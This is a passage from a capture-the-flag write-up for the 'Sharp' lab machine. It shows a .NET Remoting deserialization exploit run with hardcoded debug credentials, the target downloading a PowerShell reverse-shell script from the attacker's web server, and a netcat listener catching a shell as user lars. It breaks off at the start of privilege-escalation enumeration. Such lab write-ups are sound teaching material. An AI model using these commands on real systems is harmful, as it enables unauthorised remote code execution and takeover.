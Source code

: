 This results into following command:

```powershell
PS> .\ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw <BASE64-ENCODED PAYLOAD>

System.InvalidCastException: Unable to cast object of type 'System.Collections.Generic.SortedSet`1[System.String]' to type 'System.Runtime.Remoting.Messaging.IMessage'.
   at System.Runtime.Remoting.Channels.CoreChannel.DeserializeBinaryRequestMessage(String objectUri, Stream inputStream, Boolean bStrictBinding, TypeFilterLevel securityLevel)
   at System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage(IServerChannelSinkStack sinkStack, IMessage requestMsg, ITransportHeaders requestHeaders, Stream requestStream, IMessage& responseMsg, ITransportHeaders& responseHeaders, Stream& responseStream)
```

We do get an exception upon execution, however checking on our http and nc-listener, our payload was still executed.

```powershell
PS> python -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.10.10.219 - - [16/Mar/2021 16:38:53] "GET /rev.ps1 HTTP/1.1" 200 -
```

Now finally let us start our listener.

```powershell
PS> nc64.exe -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.219] 49674
Windows PowerShell running as user lars on SHARP
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```

We successfully get a shell as lars and can now read user.txt.

```powershell
PS C:\Users\lars\Desktop> type user.txt
1a211***************************
```

## Privesc - Root

Now that we have user, let us enumerate the system to find a privesc-vector to admin or nt authority\system.

### Enumeration as lars

Let us start our enumeration by looking at the users home-directory.

```powershell
PS C:\Users\lars\Documents> dir

    Directory: C:\Users\lars\Documents

Mode                LastWriteTime         Length Name                                                     
----                -------------         ------ ----                                                     
d-----       11/15/2020   1:40 PM                wcf

PS C:\Users\lars\Documents\wcf> dir


    Directory: C:\Users\lars\Documents\wcf


```